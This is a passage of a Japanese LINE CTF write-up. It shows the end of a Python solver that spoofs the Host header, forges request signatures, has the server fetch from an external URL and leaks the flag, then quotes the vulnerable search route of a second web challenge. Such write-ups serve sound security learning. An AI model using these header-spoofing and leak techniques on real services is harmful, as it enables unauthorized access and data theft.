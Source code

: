 ```py
    key = generate_key(dbHash)
    sign = generate_sign(f'dbhash={add_prefix(dbHash, FRAGMENT)}')

    return requests.get(urljoin(PUBLIC_BASE_URL, '/'),
                        headers={
                            'Host': PRIVATE_HOST,
                            'Lang': f'rollback?dbhash={add_prefix(dbHash, FRAGMENT)}',
                            'Key': key,
                            'Sign': sign
                        })


def exploit():
    execute_download(f'https://lab.8ay.ac/{get_db_hash()}')
    res = execute_rollback(get_db_hash())

    print(f'flag: {res.headers["lang"]}')


if __name__ == "__main__":
    exploit()
```

### Flag

`LINECTF{YOUNGCHAYOUNGCHABITCOINADAMYMONEYISBURNING}`

## [Web 50pts] Your Note (22/680 Solves)

### 問題文

```txt
Secure private note service
※ Admin have disabled some security feature of their browser...

Flag Format: LINECTF{[a-z0-9-]+}

添付ファイル: your-note.zip
```

### Writeup

`GET /search`のソースコードの下記部分に注目した。

```py
@app.route('/search')
@login_required
def search():
    q = request.args.get('q')
    download = request.args.get('download') is not None
    if q:
        notes = Note.query.filter_by(owner=current_user).filter(or_(Note.title.like(f'%{q}%'), Note.content.like(f'%{q}%'))).all()
        if notes and download:
            return Response(json.dumps(NoteSchema(many=True).dump(notes)), headers={'Content-disposition': 'attachment;filename=result.json'})
    else:
        return redirect(url_for('index'))
    return render_template('index.html', notes=notes, is_search=True)
```


[^1]: こちらは、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏と解きました。
[^2]: ひとまず簡単なWriteup出しておいて、復習するタイミングで詳細な解説を付けるやり方は、割とありな気がしている。
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: GETリクエストがあればflagを入手するには十分だったため、他のメソッドのリクエストが発行できるかは調査しなかった。
[^5]: フォワードされた後、`app.main.LanguageNomarize(request)`を用いて、正規化される場合がある。
[^6]: `%`は0文字以上の文字列を表すワイルドカード
[^7]: 実際には、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏による手動リークの方が速かったが、プライバシーの観点から、彼の顔写真の代わりにPythonによるSolverスクリプトを掲載した。